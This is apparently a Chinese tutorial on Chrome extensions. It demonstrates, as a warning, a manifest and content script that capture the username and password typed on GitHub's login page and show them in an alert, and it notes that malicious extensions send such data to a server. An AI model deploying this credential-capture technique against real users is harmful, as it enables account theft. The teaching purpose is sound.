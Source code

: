 # 基本概念

首先，我们要搞明白一件事情，那就是chrome相当于一个类似于win，linux的操作系统，而扩展就是app。
业内人士总有一句话："浏览器就相当于半个操作系统"(可以这么说，但不建议你就这样认为)
谷歌出过一个笔记本，叫`Chromebook`，不了解的可以去搜索了解一下。
要写一个chrome扩展，就必须要有相应的权限，api调用，就跟安卓，ios开发中提供的系统底层调用一样，不过chrome扩展是比较简单的。
如果您用过微信小程序或者是其它小程序，就会发现chrome扩展其实跟那些小程序非常类似。

简单来说，就是你可以通过插件来控制浏览器的一系列的行为，比如获取网页cookies，改变网页，定义ua，代理等等。

通过扩展，可控制，可访问的信息是特别多的，所以在一些情况下，**请勿随便安装插件，有可能会窃取你的信息，历史记录，书签，甚至密码**。

而这，是可以轻易做到的，下面我将用一个案例来窃取你输入的密码。

这里我们就用github来举例，通过chrome插件来获取你在github登录页面输入的账号和密码。

此处案例在examples/获取输入

首先定义配置

```js
{
  // 配置文件版本,以后只支持3了
  "manifest_version": 3,
  // 扩展名称
  "name": "获取输入信息",
  // 扩展介绍
  "description": "获取输入信息,比如密码",
  // 扩展版本
  "version": "1.0",
  "action": {
    // 默认图标
    "default_icon": "images/icon.png"
  },  
  "content_scripts": [
    {
      "matches": ["https://github.com/login","https://github.com/session"],
      "js": ["content.js"]
    }
  ],  
  // 图标
  "icons": {
    // 扩展程序页面和上下文菜单上的网站图标。
    "16": "images/icon.png",
    //     Windows 计算机通常需要此大小。
    "32": "images/icon.png",
    //    显示在“扩展程序”页面上。
    "48": "images/icon.png",
    // 安装时会显示在 Chrome 应用商店中。
    "128": "images/icon.png"
  }
}
```

清单配置，基本上都有注释，这里出现的`content_scripts`（翻译过来就是内容脚本）就是来获取网页内容，甚至改变网页的核心配置。

`matches` 是一个数组，它定义了这个js该插到那个url网页里面，这里我写了github的登录网址。

如果是指定所有网页都插入，可以使用`"matches": ["https://*/*","http://*/*"]`或者`"matches": ["<all_urls>"]`

当你启用插件之后，如果访问的是`https://github.com/login`，那么`content.js`就会被插入(注入)这个网页。

让我们看看`content.js`的内容：

```js
try {
   var form = document.forms[0];
   // 监听提交事件
   form.addEventListener("submit", myFunction);
} catch (error) {
   console.log(error);
}

function myFunction(event) {
    // 获取表单数据，这里的表单name需要自己去看实际网页的定义
    var name = event.target.elements["login"].value;
    var pass = event.target.elements["password"].value;
    // 打印账号密码
    alert(`账号:${name}密码:${pass}`);
}


```

可以看到，其实就是监听提交事件，然后定义一个函数，获取提交的账号名和密码。

运行结果如下图：

![image.png](./images/1.png)



可以看到，我们已成功的获取到账号和密码，我这里只是用了打印显示出来，如果是一些恶意的插件，可能会直接把账号和密码<mark>上传到它的服务器</mark>。



现在你是不是对于chrome扩展有了一个新的认识？其实它还可以做到更多的事情。
